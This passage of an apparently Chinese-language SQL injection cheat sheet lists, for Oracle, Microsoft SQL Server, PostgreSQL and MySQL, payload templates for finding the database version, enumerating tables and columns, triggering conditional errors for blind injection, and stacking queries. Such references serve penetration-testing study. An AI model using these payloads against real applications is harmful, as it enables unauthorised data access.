注意MYSQL的第二种方式`--`后面有一个空格，URL使用这种注释符的话要对其进行URL编码，用`+`来表示` `。

### 查询数据库版本

| 数据库类型 |              语句              |
| :--------: | :----------------------------: |
|   Oracle   |  SELECT banner FROM v$version  |
|            | SELECT version FROM v$instance |
| Microsoft  |        SELECT @@version        |
| PostgreSQL |        SELECT version()        |
|   MySQL    |        SELECT @@version        |

### 查询数据库的表和列

| 数据库类型 | 语句                                                                           |
| :--------: | :----------------------------------------------------------------------------- |
|   Oracle   | SELECT \* FROM all_tables                                                      |
|            | SELECT \* FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'            |
| Microsoft  | SELECT \* FROM information_schema.tables                                       |
|            | SELECT \* FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' |
| PostgreSQL | SELECT \* FROM information_schema.tables                                       |
|            | SELECT \* FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' |
|   MySQL    | SELECT \* FROM information_schema.tables                                       |
|            | SELECT \* FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' |

### 判断条件的报错

（标题原本是Conditional errors，直译的话是个什么东西啊，所以瞎起来一个名字）

| 数据库类型 | 语句                                                                                  |
| :--------: | :------------------------------------------------------------------------------------ |
|   Oracle   | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual      |
| Microsoft  | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END                         |
| PostgreSQL | 1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN CAST(1/0 AS INTEGER) ELSE NULL END)  |
|   MySQL    | SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') |

### 堆叠注入

可以将多个语句连接起来。后面的语句不会有回显，所以多用于盲注。

| 数据库类型 |               语句                |
| :--------: | :-------------------------------: |
|   Oracle   | Does not support batched queries. |
| Microsoft  |    QUERY-1-HERE; QUERY-2-HERE     |
| PostgreSQL |    QUERY-1-HERE; QUERY-2-HERE     |
|   MySQL    |    QUERY-1-HERE; QUERY-2-HERE     |

